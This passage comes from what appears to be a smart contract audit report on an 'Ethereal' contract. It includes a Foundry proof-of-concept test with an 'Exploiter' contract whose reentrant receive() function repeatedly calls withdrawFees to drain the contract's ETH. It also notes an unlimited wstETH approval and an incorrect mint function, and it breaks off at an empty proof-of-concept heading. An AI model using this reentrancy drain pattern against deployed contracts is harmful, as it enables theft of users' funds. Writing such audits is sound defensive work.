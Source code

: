                 vm.deal(user1, 200 * 1e18);
                vm.startPrank(user1);
                uint256 tokenIdOne = ethereal.mint{value: 100 * 1e18}(0, user1);
                uint256 tokenIdTwo = ethereal.mint{value: 50 * 1e18}(1, user1);
                uint256 tokenIdThree = ethereal.mint{value: 50 * 1e18}(2, user1);
                vm.stopPrank();

                vm.prank(user1);
                ethereal.redeem(tokenIdTwo);
                vm.prank(user1);
                ethereal.redeem(tokenIdThree);

                Exploiter ex = new Exploiter(ethereal);

                ethereal.setPayout(address(ex));
                ethereal.transferOwnership(address(ex));
                console2.log(address(ex).balance);

                vm.prank(address(ex));
                ex.exploit();

                console2.log(address(ex).balance); //101_000_000_000_000_000_000
            }

            contract Exploiter {
            Ethereal eth;

            constructor(Ethereal _address){
                eth = _address;
            }

            function exploit() public {
                eth.withdrawFees();
            }

            receive() external payable {
                if(address(eth).balance > 0){
                    eth.withdrawFees();
                }
            }
        }

    ```

    - Considering the following function, the wstEth could be drained too.
    
    ```solidity
        function approveWstEth(address _spender) external onlyOwner {
          require(_spender != address(0), "Zero address");
          IwstETH(wstETH).approve(_spender, 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff);
        }
    ``` 

    </details>


- **The function `etheral::_mintWstEth` is implemented incorrectly, breaking the functionality.**
  - **Description:**
    - wstEth is an ERC20. So the transfer should be done using `etheral::transfer` or `etheral::transferFrom`from the `IwstEth`. Also, the `etheral::mint` function requires that some eth value must be sent. However, in this case, no ether would be sent.
  - **Impact:**
    - Protocol functionality is not utilized
  - **Proof of Concept:**
